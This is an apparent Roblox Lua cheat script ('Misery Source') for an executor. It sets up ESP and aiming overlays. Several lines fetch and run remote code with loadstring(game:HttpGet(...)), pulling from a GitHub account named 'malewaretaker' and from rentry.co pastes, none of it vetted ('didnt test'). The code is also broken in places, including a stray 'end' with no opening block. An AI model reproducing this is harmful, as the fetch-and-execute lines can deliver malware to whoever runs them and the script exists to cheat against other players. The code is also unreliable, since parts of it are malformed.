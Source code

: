 -- extra funcs below to support solara

loadstring(game:HttpGet("https://raw.githubusercontent.com/malewaretaker/testing/main/main"))()

-- didnt  test btw ping @kodabladi if it  doesn't work
--[[

// Misery Source || v1.0.5
// Hi calls || << >>

]]--

print("=")

--// Initialize
if not game:IsLoaded() then
    game.Loaded:Wait()
end

print("=")
  
  if (not LPH_OBFUSCATED) then
      LPH_NO_VIRTUALIZE = function(...) return (...) end;
      LPH_JIT_MAX = function(...) return (...) end;
      LPH_JIT_ULTRA = function(...) return (...) end;
  end

  print("CheckPoint 1")
  
  --// Custom Drawing
  -- loadstring((syn and syn.request or request)({Url = "https://rentry.co/7osf4/raw", Method = "Get"}).Body)(); -- J4VZ9cJh
  local MainColor = Color3.fromRGB(255, 102, 204)
  
    getgenv().crosshair.enabled = false
    getgenv().crosshair.color = MainColor
  end
  local ESPHandler = loadstring(game:HttpGet('https://rentry.co/kn2pfu48/raw', true))() do
    getgenv().esp.Enabled = false
    getgenv().esp.SkeletonEnabled = false
    getgenv().esp.ChamsEnabled = false
  end

  local YunDrawingApi = loadstring(game:HttpGet('https://raw.githubusercontent.com/caIIed/Librarys/main/Yun%20Api.lua', true))()

  local TargetCircle = YunDrawingApi:New3DCircle() do
    TargetCircle.Visible = false
    TargetCircle.ZIndex = 1
    TargetCircle.Transparency = 1
    TargetCircle.Color = MainColor
    TargetCircle.Thickness = 1
    TargetCircle.Radius = 2
    TargetCircle.Rotation = Vector2.new(2, 0)
end
  
  --// Services
  local Workspace = game:GetService("Workspace")
  local Debris            = game:GetService('Debris');
  local Players = game:GetService("Players")
  local UserInputService = game:GetService('UserInputService')
  local TweenService = game:GetService('TweenService')
  local ContextAction = game:GetService('ContextActionService')
  local Lighting = game:GetService('Lighting')
  local MarketPlace = game:GetService('MarketplaceService')
  local RunService = game:GetService('RunService')
  local ReplicatedStorage = game:GetService('ReplicatedStorage')
  